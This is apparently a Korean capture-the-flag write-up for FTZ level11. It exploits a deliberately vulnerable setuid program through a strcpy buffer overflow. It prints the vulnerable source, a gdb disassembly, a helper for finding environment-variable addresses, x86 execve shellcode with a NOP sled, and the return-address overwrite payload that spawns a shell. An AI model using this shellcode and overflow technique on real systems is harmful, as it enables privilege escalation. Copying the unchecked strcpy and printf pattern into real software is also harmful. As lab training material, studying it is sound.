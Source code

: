 # **FTZ LEVEL11**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
#include <stdlib.h> 

int main (int argc,char* argv[]) {
    char str[256];
    setreuid(3092,3092);
    strcpy(str,argv[1]);
    printf(str);
}
```
gdb를 이용해 분석해보면
```
[level11@ftz level11]$ gdb -q attackme 
(gdb) set disas main
Undefined item: "main".
(gdb) set disas intel 
(gdb) disas main
Dump of assembler code for function main:
0x08048470 <main+0>:	push   ebp
0x08048471 <main+1>:	mov    ebp,esp
0x08048473 <main+3>:	sub    esp,0x108
0x08048479 <main+9>:	sub    esp,0x8
0x0804847c <main+12>:	push   0xc14
0x08048481 <main+17>:	push   0xc14
0x08048486 <main+22>:	call   0x804834c <setreuid>
0x0804848b <main+27>:	add    esp,0x10
0x0804848e <main+30>:	sub    esp,0x8
0x08048491 <main+33>:	mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:	add    eax,0x4
0x08048497 <main+39>:	push   DWORD PTR [eax]
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
0x080484a5 <main+53>:	add    esp,0x10
0x080484a8 <main+56>:	sub    esp,0xc
0x080484ab <main+59>:	lea    eax,[ebp-264]
0x080484b1 <main+65>:	push   eax
0x080484b2 <main+66>:	call   0x804833c <printf>
0x080484b7 <main+71>:	add    esp,0x10
0x080484ba <main+74>:	leave  
0x080484bb <main+75>:	ret    
0x080484bc <main+76>:	nop    
0x080484bd <main+77>:	nop    
0x080484be <main+78>:	nop    
0x080484bf <main+79>:	nop    
End of assembler dump.
```
`main+48` 에서 `strcpy()` 함수를 호출하므로 그 전에 넣을 인자값을 셋팅해야 한다.  
`strcpy()` 의 인자값에 `str` 이 있기 때문에 `str` 의 시작은 `ebp-264` 지점이다.

환경변수를 이용하여 `shellcode` 를 넣고 `shellcode` 의 시작주소를 `ret` 에 넣으면 된다.
>getenv.c
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
        char *p;
        p = getenv(argv[1]);

        if(p != NULL)
        {
                printf("%s=%p\n",argv[1], p);
        }
        return 0;
}
```
이제 리눅스에서 환경변수에 `shellcode` 를 추가시킨 후 `getenv` 를 이용하여 주소를 알아내겠다.

```
[level11@ftz tmp]$ export EGG="`python -c "print '\x90'*100+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`"
[level11@ftz tmp]$ ./getenv EGG
EGG=0xbffffc37
```
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| str[256] | dummy[8] | sfp | ret |
```

>Payload
```
 ./attackme `python -c "print 'A'*268+'\x37\xfc\xff\xbf'"`
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level11@ftz level11]$ ./attackme `python -c "print 'A'*268+'\x37\xfc\xff\xbf'"`
sh-2.05b$ my-pass
TERM environment variable not set.

Level12 Password is " ~~~~~~~~~ ".
```